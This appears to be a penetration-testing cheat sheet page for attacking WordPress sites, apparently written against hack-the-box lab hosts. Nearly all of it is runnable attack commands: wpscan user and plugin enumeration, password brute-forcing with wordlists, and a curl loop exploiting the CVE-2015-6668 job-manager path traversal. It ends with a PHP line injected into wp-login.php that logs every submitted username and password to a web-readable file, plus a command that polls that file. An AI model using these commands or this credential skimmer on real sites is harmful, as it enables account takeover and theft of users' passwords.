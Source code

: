 ```yaml
---
icon: wordpress
---
```


# Wordpress

{% code title="Nmap Scan" overflow="wrap" %}
```sh
nmap -n -p<PORT> --script http-wordpress-enum <DNS>bash
```
{% endcode %}

<details>

<summary><mark style="color:orange;"><strong><code>wpscan</code></strong></mark></summary>

{% hint style="info" %}
{% code title="Installation" %}
```sh
gem install wpscan
```
{% endcode %}
{% endhint %}

{% code title="Basic Scan" %}
```bash
wpscan --url https://example.com
```
{% endcode %}

{% code title="Users" %}
```sh
wpscan --url https://example.com --enumerate u
```
{% endcode %}

{% code title="Plugins" %}
```sh
wpscan --url https://example.com --enumerate ap
```
{% endcode %}

{% code title="Themes" %}
```sh
wpscan --url https://example.com --enumerate at
```
{% endcode %}

{% code title="With output" %}
```sh
wpscan --url https://example.com --output example.json
```
{% endcode %}

{% code title="Custom User-Agent" overflow="wrap" %}
```sh
wpscan --url https://example.com --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
```
{% endcode %}

{% code title="Disable TLS check" %}
```sh
wpscan --url https://brainfuck.htb --disable-tls-checks
```
{% endcode %}

{% hint style="info" %}
<mark style="color:red;">**`Brute-Forcing`**</mark>

{% code title="With username" overflow="wrap" %}
```sh
wpscan --url https://example.com --passwords passwords.txt --usernames admin
```
{% endcode %}

{% code title="With users wordlist" overflow="wrap" %}
```sh
wpscan --url https://example.com --passwords passwords.txt --usernames users.txt
```
{% endcode %}

{% code title="With a custom wordlist" overflow="wrap" %}
```sh
wpscan --url https://example.com --passwords custom.txt
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Vulnerability Scanner`**</mark>

{% code title="Full Scan" overflow="wrap" %}
```sh
wpscan --url https://example.com --enumerate vp,vt,vt
```
{% endcode %}

{% code title="Plugins" overflow="wrap" %}
```sh
wpscan --url https://example.com --enumerate vp
```
{% endcode %}

{% code title="Themes" overflow="wrap" %}
```sh
wpscan --url https://example.com --enumerate vt
```
{% endcode %}

{% code title="Timthumbs" overflow="wrap" %}
```sh
wpscan --url https://example.com --enumerate tt
```
{% endcode %}

{% code title="Uses WPVulnDB" overflow="wrap" %}
```sh
wpscan --url https://example.com --enumerate vp,vt,vt --api-token YOUR_API_TOKEN
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Vulnerabilities</code></strong></mark></summary>

{% hint style="danger" %}
<mark style="color:orange;">**`CVE-2015-6668`**</mark>

* <mark style="color:purple;">There is a path traversal in the</mark> <mark style="color:orange;">**`job-manager`**</mark> <mark style="color:purple;">plugin version</mark> <mark style="color:orange;">**`0.7.25`**</mark>
* <mark style="color:purple;">By browsing to</mark> <mark style="color:orange;">**`IP/index.php/jobs/apply/8/`**</mark> <mark style="color:purple;">and modifying the number in the URL, it is possible to find the names of existing applications.</mark>

{% code title="Enumerate with curl" overflow="wrap" %}
```sh
for i in $(seq 1 25); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1; done
```
{% endcode %}

* <mark style="color:purple;">Use this</mark> [<mark style="color:orange;">**`POC`**</mark>](https://github.com/jimdiroffii/CVE-2015-6668/blob/main/exploit.py) <mark style="color:purple;">to look for files associated to an application.</mark>
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Harvesting Credentials</code></strong></mark></summary>

{% hint style="info" %}
* <mark style="color:purple;">If is possible to write in</mark> <mark style="color:orange;">**`wp-login.php`**</mark><mark style="color:purple;">, add this line just after</mark> <mark style="color:orange;">**`<?php`**</mark><mark style="color:purple;">**:**</mark>

{% code overflow="wrap" %}
```php
file_put_contents("/var/www/html/dev_wiki/hijack.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND);
```
{% endcode %}

* <mark style="color:purple;">Use this command to get the hijacked file as soon as is used:</mark>

{% code overflow="wrap" %}
```sh
watch -n 1 curl -s -X GET http://10.10.10.78/dev_wiki/hijack.txt
```
{% endcode %}
{% endhint %}

</details>
